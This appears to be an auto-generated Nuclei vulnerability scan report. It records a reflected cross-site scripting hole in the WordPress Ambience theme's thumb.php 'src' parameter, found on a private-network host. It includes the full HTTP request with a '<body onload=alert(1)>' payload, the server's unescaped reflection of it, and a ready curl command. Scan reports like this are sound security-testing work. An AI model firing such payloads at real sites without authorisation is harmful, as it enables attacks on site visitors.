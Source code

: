 ### WordPress Theme Ambience - 'src' Reflected Cross-Site Scripting (XSS) (wp-ambience-xss) found on http://192.168.198.179:8080/
---
**Details**: **wp-ambience-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg

**Timestamp**: Wed Jun 8 20:22:32 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Theme Ambience - 'src' Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | wordpress, xss, wp-plugin |
| Severity | medium |

**Request**
```http
GET /wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 209
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/themes/ambience/thumb.php?src=<body onload=alert(1)>.jpg</B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/38568

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36' 'http://192.168.198.179:8080/wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)